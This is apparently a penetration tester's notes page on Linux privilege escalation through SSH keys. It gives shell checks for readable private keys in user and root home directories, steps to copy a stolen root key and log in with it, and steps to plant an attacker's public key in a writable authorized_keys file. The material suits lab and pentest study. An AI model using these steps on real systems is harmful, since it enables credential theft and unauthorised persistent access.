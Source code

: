 ```yaml
---
id: SSH Keys
aliases: []
tags:
  - Linux/Privesc/SSH-Keys
---
```


# SSH Keys

<!-- Discover SSH Keys {{{-->
## Discover SSH Keys

### User

Check the user's `.ssh/`directory for private SSH keys

```sh
/home/<user>/.ssh/id_rsa
```

Check if the user's private SSH key is readable

```sh
[ -r /home/user/.ssh/id_rsa ] && echo "Readable" || echo "Not readable"
```

### root

Check the `/root` directory for private SSH keys

```sh
/root/.ssh/id_rsa
```

Check if the `root` user's private SSH key is readable

```sh

[ -r /root/.ssh/id_rsa ] && echo "Readable" || echo "Not readable"
```
<!-- }}} -->

<!-- Exfiltrate SSH private keys {{{-->
## Exfiltrate SSH private keys

If an SSH private key is readable on the target machine, it may be possible
to exfiltrate it

1. Create an RSA key on the attacker machine

```sh
nvim id_rsa
```

2. Change permissions to be more restrictive

The SSH server may prevent the key from working with lax (loose or insecure permissions)

```sh
chmod 600 id_rsa
```

3. SSH to the target machine with the `-i` flag

```sh
ssh root@{target_ip} -i id_rsa -p {target_port}
```
<!-- }}} -->

<!-- Writable SSH directory {{{-->
## Writeable SSH directory

If an SSH directory is writeable on the target machine, it may be possible to
inject SSH keys

This technique is usually used to gain SSH access after gaining a shell as user

1. **Target**: Check write access to `/.ssh/` directory

```sh
test -w /home/<user>/.ssh && echo "Writable" || echo "Not Writable"
```

2. **Attacker**: Create a new SSH key pair

```sh
ssh-keygen -f key
```

3. **Target**: Place the public key (`key.pub`) to the SSH directory

```sh
/home/<user>/.ssh/authorized_keys
```

4. **Attacker**: Connect to the target

```sh
ssh {target_user}@{target_ip} -i key
```
<!-- }}} -->
